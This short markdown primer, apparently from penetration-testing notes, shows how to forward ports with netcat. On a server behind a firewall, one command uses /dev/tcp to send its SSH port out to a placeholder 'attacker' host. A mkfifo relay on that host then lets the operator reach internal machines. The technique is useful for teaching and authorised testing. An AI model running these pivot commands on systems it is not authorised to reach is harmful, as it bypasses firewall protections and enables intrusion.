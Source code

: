 ```yaml
---
description: Using SSH to access local processes or access local internal network machines
---
```


# Port Forwarding Primer

## Using netcat&#x20;

On server behind (incoming) firewall:

```bash
nc localhost 22 >& /dev/tcp/<your-hostname>/<open port on local computer, i.e. 9000> 0>&1
```

On local/attacker computer/shell:

```bash
cd /tmp; mkfifo backpipe
nc -l 9000 0<backpipe | nc -l 9001 | tee backpipe
```

On local computer, separate terminal/shell session:

```bash
ssh localhost -p 9001
```
